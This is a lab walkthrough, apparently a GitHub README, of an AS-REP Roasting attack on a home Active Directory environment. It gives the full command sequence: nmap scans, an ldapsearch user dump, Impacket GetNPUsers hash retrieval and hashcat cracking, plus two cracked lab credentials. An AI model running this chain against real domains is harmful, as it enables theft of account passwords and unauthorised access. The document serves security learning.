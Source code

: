 # 🧨 AS-REP Roasting Attack Walkthrough

## 🧠 Overview

AS-REP Roasting is a technique that allows an attacker to retrieve encrypted authentication responses from Active Directory without valid credentials, but only if the target accounts have “Do not require Kerberos pre-authentication” enabled. The attacker can then attempt to crack these responses offline to recover plaintext passwords.
- **Tactic:** Credential Access
- **Technique:** [AS-REP Roasting (T1558.004)](https://attack.mitre.org/techniques/T1558/004/)
- **Objective:** Obtain plaintext passwords of service accounts with weak hashes to gain initial access.

---

## ⚙️ Lab Setup

- **Attacker Machine:** Kali Linux
- **Target Environment:** Windows Active Directory
  - 1x Domain Controller (Windows Server 2019)
  - 2x Windows 10 clients
- **SIEM:** Splunk Enterprise logging DC and endpoint activity

---

## 🚩 Red Team Steps

### 1. Discover Live Hosts on the subnet with Nmap
Identifies which machines are active and available for further reconnaissance.
```
nmap -sn 10.80.80.0/24 
```
![NMAP_SCAN](../assets/AS-REP/RED/1_NMAP_SCAN.png)
### 2. Scan the machines of interest for exposed services and ports
Reveals the Domain Controller and attack surface for the machine.
```
nmap -sV -O 10.80.80.2
```
![NMAP_DOMAIN](../assets/AS-REP/RED/2_NMAP_DOMAIN.png)
### 3. Enumerate Domain Users
The nmap scan would reveal services open to exploitation. In my case, the LDAP server was exposed. I then used ldapsearch to return every entry in the directory, formatted the list and saved it to a txt file.
```
ldapsearch -x -H ldap://10.80.80.2 -b "DC=ad,DC=lab" "(objectClass=user" | grep "sAMAccountName" | sort | cut -d " " -f2 > users.txt
```
![LDAP_SEARCH](../assets/AS-REP/RED/3_LDAP_SEARCH.png)
### 4. Use Impacket's getNPUsers to identify Users with Service Principal Names
This step identifies users who have pre-authentication disabled. These accounts are vulnerable to AS-REP Roasting. The tool will request TGTs and output hashes that can be cracked offline.
```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py ad.lab/ -usersfile users.txt -dc-ip 10.80.80.2
```
![GET_NPUSERS](../assets/AS-REP/RED/4_getNPUsers.png)
### 5. Crack the hash using Hashcat and a password list
After retrieving AS-REP hashes, I used Hashcat to crack them offline. These hashes use RC4-HMAC encryption and are compatible with mode 18200 in Hashcat.
```
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```
![HASHCAT](../assets/AS-REP/RED/5_HASHCAT.png)

I now have access to two low level accounts:
- audry.florencia 159357
- mag.auria charles

---

## 🏁 Gaining Initial Access

This phase of the attack demonstrates how an attacker with no existing credentials can gain a foothold in an Active Directory environment by taking advantage of accounts that have Kerberos pre-authentication disabled.

Using tools like ldapsearch, Impacket’s GetNPUsers.py, and Hashcat, I was able to enumerate domain users, identify vulnerable accounts, and crack a user’s password offline. With valid domain credentials, the attacker now has an initial presence inside the network.

This access provides a foundation for post-exploitation steps such as privilege escalation, lateral movement, and further enumeration within the environment.

---




















